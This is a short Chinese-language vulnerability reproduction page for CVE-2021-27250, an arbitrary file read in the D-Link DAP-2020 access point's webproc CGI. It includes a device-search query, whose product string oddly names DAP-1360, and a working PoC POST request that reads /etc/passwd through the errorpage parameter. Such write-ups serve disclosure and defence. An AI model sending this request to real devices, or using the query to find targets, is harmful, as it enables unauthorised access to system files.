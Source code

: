 # D-Link DAP-2020 webproc 任意文件读取漏洞 CVE-2021-27250

# D-Link DAP-2020 webproc 任意文件读取漏洞 CVE-2021-27250

## 漏洞描述

近日D-Link发布公告[1]称旗下产品DAP-2020存在任意文件读取漏洞，CVE编号为CVE-2021-27250，目前已在硬件版本：A1，固件版本：1.01 上测试了PoC，由于漏洞影响核心组件，因此其他版本也可能受到此漏洞的影响

## 漏洞影响

```
D-LINK DAP-2020
```

## 网络测绘

```
body="DAP-1360" && body="6.05"
```

## 漏洞复现

登录页面

![image-20220715110127290](/images/202207151101366.png)

验证POC

```
POST /cgi-bin/webproc

getpage=html%2Findex.html&errorpage=/etc/passwd&var%3Amenu=setup&var%3Apage=wizard&var%3Alogin=true&obj-action=auth&%3Ausername=admin&%3Apassword=123&%3Aaction=login&%3Asessionid=3c1f7123
```

![image-20220715110059377](/images/202207151100465.png)

